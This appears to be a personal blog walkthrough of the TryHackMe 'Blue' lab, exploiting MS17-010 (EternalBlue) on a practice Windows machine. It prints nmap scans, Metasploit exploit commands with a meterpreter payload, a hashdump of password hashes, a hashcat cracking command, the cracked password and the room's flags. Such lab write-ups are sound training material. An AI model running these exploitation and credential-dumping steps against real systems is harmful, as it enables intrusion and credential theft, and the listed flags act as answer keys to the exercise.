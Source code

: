 ```yaml
---
title: THM - Walkthrough - Blue [Easy]
date: 2024-08-01 00:00:00 +/-TTTT
categories: [Walkthrough]
tags: [ctf, thm, easy, ms17-010]     # TAG names should always be lowercase
---
```


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/7717bbc69c486931e503a74f3192a4d8.gif" width="200" height="200" />

Welcome to my writeups for the TryHackMe room Blue. That's an easy room that will help you 
practice your Windows exploitation skills using the MS17-010 vulnerability.
The room is available [here](https://tryhackme.com/room/blue).

## Information Gathering

### Port Scanning

We start by using `nmap` to scan the target machine for open ports and services.

```
$ nmap -sV 10.10.145.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-27 13:51 EDT
Nmap scan report for 10.10.145.137
Host is up (0.22s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that the target machine has the following services running:
- `MSRPC` on port 135
- `SMB` on ports 139 and 445
- `RDP` on port 3389

### Vulnerability Scanning 

As we see that the target machine is running Windows the name of the room is Blue we can assume 
that the target machine is vulnerable to the MS17-010 vulnerability (EternalBlue) which concerns
the SMB service.
Let's use `nmap` to confirm that.

```
$ nmap --script smb-vuln-ms17-010 -p445 10.10.145.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-27 13:53 EDT
Nmap scan report for 10.10.145.137
Host is up (0.22s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 2.69 seconds
```

The target machine is indeed vulnerable to the MS17-010 vulnerability.

## Exploitation

We will use the `msfconsole` to exploit the MS17-010 vulnerability.

```
$ msfconsole
```

```
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 10.10.145.137
msf6 > set LPORT 1234
msf6 > set payload windows/x64/meterpreter/bind_tcp
msf6 > run
```

We have successfully exploited the MS17-010 vulnerability and have a shell on the target machine.

![Meterpreter](assets/img/posts/walkthroughs/blue/20240801_blue_meterpreter.png)

As we exploited the MS17-010 vulnerability we already have a NT AUTHORITY\SYSTEM shell.

## Post-Exploitation

### Dumping Password Hashes

We can dump the password hashes from the target machine using the `hashdump` command.

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

We can now crack the Jon password hashes using `john` or `hashcat`.

```
$ hashcat -a 0 -m 1000 Jon.hash /usr/share/wordlists/rockyou.txt
```

Quickly we obtain Jon's password which is `alqfna22`.

### Flags

We can now find the flags on the target machine.

![Flag 1](assets/img/posts/walkthroughs/blue/20240801_blue_flag1.png)

![Flag 2](assets/img/posts/walkthroughs/blue/20240801_blue_flag2.png)

![Flag 3](assets/img/posts/walkthroughs/blue/20240801_blue_flag3.png)

**Flag 1:** `flag{access_the_machine}`

**Flag 2:** `flag{sam_database_elevated_access}`

**Flag 3:** `flag{admin_documents_can_be_valuable}`

And that's it! We have successfully exploited the MS17-010 vulnerability and completed the room !
